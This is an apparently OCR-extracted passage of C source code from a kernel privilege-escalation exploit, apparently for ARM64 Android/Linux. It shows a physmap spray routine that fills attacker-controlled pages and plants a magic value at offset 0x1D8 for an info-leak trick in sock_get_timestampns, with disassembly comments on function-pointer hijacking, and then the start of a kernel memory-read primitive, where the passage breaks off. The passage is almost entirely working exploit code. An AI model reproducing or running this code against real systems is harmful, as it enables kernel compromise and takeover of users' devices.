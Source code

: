 ```



int spray_nofork(unsigned int size)
{

  void*       mapped;
  void*       mapped_page;
  int         ret, i;

  mapped = mmap(NULL, size , PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_POPULATE, -1, 0);
  if(MAP_FAILED == mapped)
  {
    printf("[*] mmap fail.\n");
    exit(-1);
  }


  for(i=0; i<size/PAGE_SIZE; i++)
  {
      memset((void *)((char *)mapped + PAGE_SIZE * i), 0x41, PAGE_SIZE);  
      mapped_page = (void *)((char *)mapped + PAGE_SIZE * i);
      
      /*
        to avoid 32bit exploit crash in inet_compat_ioctl
        ROM:FFFFFFC0003FE2CC                 LDR             X3, [X0,#0x28]             ;X0 points to aligned-page controlled by attacker 
        ROM:FFFFFFC0003FE2D0                 LDR             X3, [X3,#0x60]             
        ROM:FFFFFFC0003FE2D4                 CBZ             X3, loc_FFFFFFC0003FE2E4   ;if X3!=0 it will be used as function pointer
        ROM:FFFFFFC0003FE2D8                 BLR             X3
      */
      //*(unsigned long *)((char *)mapped_page + 0x28)  = mapped_page;
      //*(unsigned long *)((char *)mapped_page + 0x60)  = 0;
      /*
        info leak trick mentioned in Xu Wen's paper, a magic value will be read in sock_get_timestampns
        ROM:FFFFFFC000360B30                 LDR             X0, [X19,#0x1D8]           ;X19 points to aligned-page controlled by attacker
        ROM:FFFFFFC000360B34                 BL              ns_to_timespec
      */
      *(unsigned long *)((char *)mapped_page + 0x1D8)  = MAGIC_VALUE + physmap_spray_pages_count;
      /*ret = mlock(mapped_page, PAGE_SIZE);
      if(-1 == ret)
      {
          perror("[*] lock the mapped page fail");
          return -1;
      }*/

      physmap_spray_pages[physmap_spray_pages_count]  =  mapped_page;
      physmap_spray_pages_count++;
  }
  return 0;
}



int kernel_read8(void* kernel_addr,  unsigned long* value)
{
    int pipefd[2];
 
    if(-1 == pipe(pipefd))
```
